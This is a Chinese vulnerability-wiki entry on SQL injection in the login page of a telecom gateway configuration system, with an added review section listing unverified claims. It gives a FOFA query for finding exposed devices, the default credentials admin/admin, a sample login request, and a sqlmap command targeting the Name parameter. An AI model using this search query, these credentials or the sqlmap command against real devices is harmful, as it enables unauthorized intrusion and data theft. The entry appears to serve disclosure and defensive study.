


# 电信 网关配置管理系统 login.php SQL注入漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：电信网关配置管理系统，供应商未确证
- 本文讨论：manager/login.php Name SQL注入，另述默认凭据
- 版本、权限与配置前提：登录前接口，未给版本
- 资料类型：SQL注入工具复现摘要；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 只正常登录请求+sqlmap命令，无SQL载荷/输出文本，截图承担证据
- FOFA嵌套双引号未转义；Content-Length53与短正文不符
- 默认admin/admin缺来源，产品名不足唯一识别
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 注入结果、确切产品及默认凭据范围待确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

```
电信网关配置管理系统
```

## 网络测绘

```
body="src="img/dl.gif"" && title="系统登录"
```

## 漏洞复现

登录页面如下


设备存在默认弱口令 **admin/admin**



登录的请求包为

```http
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```plain
sqlmap -r sql-1.txt -p Name --risk 3
```



#

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
